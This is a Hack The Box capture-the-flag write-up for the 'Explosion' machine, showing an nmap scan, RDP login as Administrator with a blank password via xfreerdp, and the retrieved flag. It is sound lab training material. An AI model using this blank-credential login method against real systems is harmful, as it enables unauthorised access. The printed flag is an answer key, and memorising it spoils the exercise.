

# HTB - Starting Point - Explosion

🇧🇷 [Versão em Português](./README-explosion.pt-BR.md)

| Info         | Detail        |
|--------------|---------------|
| Platform     | Hack The Box  |
| Track        | Starting Point|
| Difficulty   | Very Easy     |
| OS           | Windows       |
| Status       | ✅ Completed  |

## Table of Contents
- [HTB - Starting Point - Explosion](#htb---starting-point---explosion)
  - [Table of Contents](#table-of-contents)
  - [Recon](#recon)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Flag](#flag)
  - [Lessons Learned](#lessons-learned)

---

## Recon

I started the target machine through the HTB platform, which provided the target's IP address:

**Target IP:** `10.129.1.13`

I then connected to the Pwnbox (HTB's attack machine) and, through it, connected to the target's network via VPN.

I ran an **Nmap** scan to identify open ports and services on the target:

```bash
nmap 10.129.1.13
```

```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

The open ports confirmed this is a Windows host, and port **3389** (ms-wbt-server) indicated that **RDP (Remote Desktop Protocol)** was available.

---

## Enumeration

With RDP open, I attempted a connection using `xfreerdp`, first without specifying a username:

```bash
xfreerdp -v:10.129.1.13
```

This triggered several certificate warnings (self-signed certificate, name mismatch), which are expected on lab/CTF environments and can be trusted. The connection also failed at this point due to Kerberos realm resolution issues and missing credentials:

```
No user name set. - Using login name: h1k4ri
...
No credentials provided - using NULL identity
...
Cannot contact any KDC for realm 'ATHENA.MIT.EDU'
```

I then retried specifying the `Administrator` user explicitly:

```bash
xfreerdp /u:Administrator /v:10.129.1.13
```

When prompted for **Domain** and **Password**, I left both fields blank (pressing Enter):

```
Domain:
Password:
```

---

## Exploitation

Despite providing no password, the connection succeeded, logging in with a **NULL identity**:

```
No credentials provided - using NULL identity
...
[gdi_init_ex]: Local framebuffer format  PIXEL_FORMAT_BGRX32
```

This indicated the `Administrator` account had **no password set**, allowing unauthenticated RDP access directly to the desktop.

Once inside the Windows desktop, I located a `flag` file on the desktop and opened it with Notepad, revealing the flag content directly:



---

## Flag

```
951fa96d7830c451b536be5a6be008a0
```

---

## Lessons Learned

- RDP (3389) exposed to the internet or an untrusted network is already a significant risk, especially when combined with weak account policies.
- An account with **no password set** (like `Administrator` here) completely bypasses authentication — `xfreerdp` will connect with a NULL identity when no credentials are supplied and the target allows it.
- Certificate warnings (self-signed, name mismatch) are common and expected in isolated lab environments like HTB, but should never be blindly trusted in real production networks.
- Always test default/blank credentials on exposed administrative services before assuming more complex exploitation is required — the simplest misconfiguration is often the actual vulnerability.
